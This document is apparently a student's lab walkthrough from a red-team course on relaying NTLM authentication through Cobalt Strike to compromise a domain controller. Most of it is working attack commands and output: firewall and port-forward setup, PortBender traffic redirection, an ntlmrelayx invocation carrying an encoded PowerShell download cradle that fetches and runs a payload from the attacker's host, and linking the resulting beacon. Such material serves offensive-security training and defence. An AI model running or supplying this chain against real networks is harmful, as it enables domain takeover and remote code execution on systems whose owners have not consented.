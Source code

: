 #Recommend #To #Follow #The #Video

NTLM authentication uses a 3-way handshake between a client and server.  The high-level steps are as follows:

1. The client makes an authentication request to a server for a resource it wants to access.
2. The server sends a challenge to the client - the client needs to encrypt the challenge using the hash of their password.
3. The client sends the encrypted response to the server, which contacts a domain controller to verify the encrypted challenge is correct.

In an NTLM relay attack, an attacker is able to intercept or capture this authentication traffic and effectively allows them to impersonate the client against the same, or another service.  For instance, a client attempts to connect to Service A, but the attacker intercepts the authentication traffic and uses it to connect to Service B as though they were the client.

  Windows Server 2022 domain controllers enable "Network Server: Digitally sign communications (always)" to Enabled by default, making this style of attack unviable.

  

During an on-premise penetration test, NTLM relaying with tools like [Responder](https://github.com/lgandx/Responder) and [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/tree/master/impacket/examples/ntlmrelayx) is quite trivial.  However, it's a different story with this style of red team assessment, not least because we can't typically run Python tools on Windows.  Port 445 is always bound and in use by Windows - even local admins can't arbitrarily redirect traffic bound to this port or bind another tool to this port.

It's still possible to do with Cobalt Strike, but requires the use of multiple capabilities simultaneously.

1. A [driver](https://reqrypt.org/windivert.html) to redirect traffic destined for port 445 to another port (e.g. 8445) that we can bind to.
2. A reverse port forward on the port the SMB traffic is being redirected to.  This will tunnel the SMB traffic over the C2 channel to our Team Server.
3. The tool of choice (ntlmrelayx) will be listening for SMB traffic on the Team Server.
4. A SOCKS proxy is to allow ntlmrelayx to send traffic back into the target network.

  

The flow looks something like this:


![[NTLM RELAYING FLOW.png]]

First, ensure all the pre-requisites are in place before launching the actual attack.  Obtain a SYSTEM beacon on the machine you will capture the SMB traffic on.

![[PREREQUISITES.png]]

Next, allow those ports inbound on the Windows firewall.

```BASH
beacon> powershell New-NetFirewallRule -DisplayName "8445-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8445
beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
```

Then start two reverse port forwards - one for the SMB capture, the other for a PowerShell download cradle.

```BASH
beacon> rportfwd 8445 localhost 445
[+] started reverse port forward on 8445 to localhost:445

beacon> rportfwd 8080 localhost 80
[+] started reverse port forward on 8080 to localhost:80
```

The final part of the setup is to start a SOCKS proxy that ntlmrelayx can use to send relay responses back into the network.

```BASH

beacon> socks 1080
[+] started SOCKS4a server on: 1080
```

Now we can start `ntlmrelayx.py` listening for incoming connections on the Team Server.  The `-c` parameter allows us to execute an arbitrary command on the target after authentication has succeeded.


```BASH
# use this specific proxychains command on ATTACKER LINUX
attacker@ubuntu ~> sudo proxychains ntlmrelayx.py -t smb://10.10.122.10 -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAyADMALgAxADAAMgA6ADgAMAA4ADAALwBiACIAKQA='
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client RPC loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

Where:

- 10.10.122.10 is the IP address of `dc-2.dev.cyberbotic.io`, which is our target.
- The encoded command is a download cradle pointing at `http://10.10.123.102:8080/b`, and `/b` is an SMB payload.
`TO SET UP SMB FILE HOST GO TO SITE - ON COBALT STRIKE  SITE MANAGEMENT -> HOST FILE -> SPECIFY LOCATION SUCH AS /B ADD A PAYLOAD AND ENSURE IT IS FACING THE TEAM SERVER IP ADDRESS `

![[b smb payload.png]]
  

[PortBender](https://github.com/praetorian-inc/PortBender) is a reflective DLL and aggressor script specifically designed to help facilitate relaying through Cobalt Strike.  It requires that the driver be located in the current working directory of the Beacon.  It makes sense to use `C:\Windows\System32\drivers` since this is where most Windows drivers go.


```bash
# this is all done in the system WKS 2
beacon> cd C:\Windows\system32\drivers
beacon> upload C:\Tools\PortBender\WinDivert64.sys
```

Then go to _Cobalt Strike > Script Manager_ and load `PortBender.cna` from `C:\Tools\PortBender` - this adds a new `PortBender` command to the console.

```BASH
beacon> help PortBender
Redirect Usage: PortBender redirect FakeDstPort RedirectedPort
Backdoor Usage: PortBender backdoor FakeDstPort RedirectedPort Password
Examples:
	PortBender redirect 445 8445
	PortBender backdoor 443 3389 praetorian.antihacker
```

Execute PortBender to redirect traffic from 445 to port 8445.

```BASH
beacon> PortBender redirect 445 8445
[+] Launching PortBender module using reflective DLL injection
Initializing PortBender in redirector mode
Configuring redirection of connections targeting 445/TCP to 8445/TCP
```

`  This pretty much breaks any legitimate SMB service on the machine.`


To trigger the attack, we need to coerce a user or a machine to make an authentication attempt to Workstation 2.  Let's do it manually for now, by using the console of Workstation 1 as the user nlamb.  This user is a domain admin, so we can relay the authentication request to the domain controller.

```BASH
# DONE ON WORKSTATION 1

C:\Users\nlamb>hostname
wkstn-1

C:\Users\nlamb>dir \\10.10.123.102\relayme
```

You should see PortBender log the connection and ntlmrelayx will spring into action.

```BASH

[*] SMBD-Thread-3: Received connection from 127.0.0.1, attacking target smb://10.10.122.10
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.122.10:445-<><>-OK
[*] Authenticating against smb://10.10.122.10 as DEV/NLAMB SUCCEED
[*] Executed specified command on host: 10.10.122.10
```

ntlmrelayx reports that the command was executed - we can check the web log to confirm we received a hit.

```BASH
# SHOWN WHERE THE SYSTEM PORTBENDER INSTANCE WAS IN COBALT STRIKE

09/05 13:34:16 visit (port 80) from: 127.0.0.1
	Request: GET /b
	page Scripted Web Delivery (powershell)
	nulL
```

All that's left is to link to the Beacon.

```BASH
beacon> link dc-2.dev.cyberbotic.io TSVCPIPE-a73b415d-99cf-44bf-adc2-4a2555811337imherelmao
[+] established link to child beacon: 10.10.122.10
```

![[SUCCESSFUL NTLM RELAY.png]]

To stop PortBender, stop the job and kill the spawned process.

```BASH
# MAKE SURE TO STOP TO ALLOW REUSE OF PORT 445 on system

beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 2    5740  PortBender

beacon> jobkill 2
beacon> kill 5740

```